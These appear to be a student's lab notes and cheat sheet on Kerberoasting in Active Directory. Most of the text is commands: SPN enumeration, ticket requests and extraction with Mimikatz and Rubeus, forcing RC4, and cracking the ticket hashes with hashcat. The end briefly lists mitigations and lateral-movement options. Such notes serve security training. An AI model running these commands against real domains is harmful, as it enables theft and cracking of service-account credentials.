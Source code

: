 ## Enumerating SPN's with setspn.exe
```shell-session
setspn.exe -Q */*
```

**Targeting a Single User
```shell-session
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

**Retrieving All Tickets Using setspn.exe
```shell-session
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

## Extracting Tickets from Memory with Mimikatz
```shell-session
base64 /out:true
kerberos::list /export
```

**Preparing the Base64 Blob for Cracking
```shell-session
echo "<base64 blob>" |  tr -d \\n 
```

**Placing the Output into a File as .kirbi
```shell-session
cat encoded_file | base64 -d > sqldev.kirbi
```

**Extracting the Kerberos Ticket using kirbi2john.py
```shell-session
python2.7 kirbi2john.py sqldev.kirbi
```

**Modifying crack_file for Hashcat
```shell-session
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

**Viewing the Prepared Hash
```shell-session
cat sqldev_tgs_hashcat
```

**Cracking the Hash with Hashcat
```shell-session
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt
```

## Automated / Tool Based Route
**Using PowerView to Enumerate SPN Accounts
```shell-session
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```

**Using PowerView to Target a Specific User
```shell-session
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat
```

**Exporting All Tickets to a CSV File
```shell-session
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

**Viewing the Contents of the .CSV File
```shell-session
cat .\ilfreight_tgs.csv
```

**Using Rubeus
```shell-session
.\Rubeus.exe
```

**Using the /stats Flag
```shell-session
.\Rubeus.exe kerberoast /stats
```

**Using the /nowrap Flag
```shell-session
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
```
- High value targets
- nowrap makes it easier to copy for Hashcat

**Specific User
```
.\Rubeus.exe kerberoast /user:testspn /nowrap
```

If hash starts with $krb5tgs$23$*, it is RC4 (easier to crack)
$krb5tgs$17$* = AES-128
$krb5tgs$18$* = AES-256

**Check encryption with PowerView
```shell-session
Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,msds-supportedencryptiontypes
```
- msds-supportedencryptiontypes = 0 is RC4
- msds-supportedencryptiontypes = 24 is AES 128/256

**Cracking the Ticket with Hashcat & rockyou.txt
```shell-session
hashcat -m 13100 rc4_to_crack /usr/share/wordlists/rockyou.txt 
```

**Requesting a New Ticket
```shell-session
.\Rubeus.exe kerberoast /user:testspn /nowrap
```

**Running Hashcat & Checking the Status of the Cracking Job
```shell-session
hashcat -m 19700 aes_to_crack /usr/share/wordlists/rockyou.txt
```

**Using the /tgtdeleg Flag (only request RC4 tickets)
```shell-session
.\Rubeus.exe kerberoast /tgtdeleg /user:testspn /nowrap
```

**Edit Encryption Types used by Kerberos
Computer Configuration > Policies > Windows Settings > Security Settings > Local Policies > Security Options > Network security: Configure encryption types allowed for Kerberos

## Mitigation & Detection
- Managed Service Accounts
- Group Managed Service Accounts
- Very long, complex passwords that automatically rotate on a set interval
- Log Kerberos Authentication
  - Group Policy > Copmuter COnfiguration > Policies > Windows Settings > Security Settings > Advanced Audit Policy Configuration > Audit Policies > Audit Kerberos Authentication Service
 - Restrict RC4

## Continuing Onwards
- Access a host via RDP or WinRM as a local user or a local admin
- Authenticate to a remote host as an admin using a tool such as PsExec
- Gain access to a sensitive file share
- Gain MSSQL access to a host as a DBA user, which can then be leveraged to escalate privileges
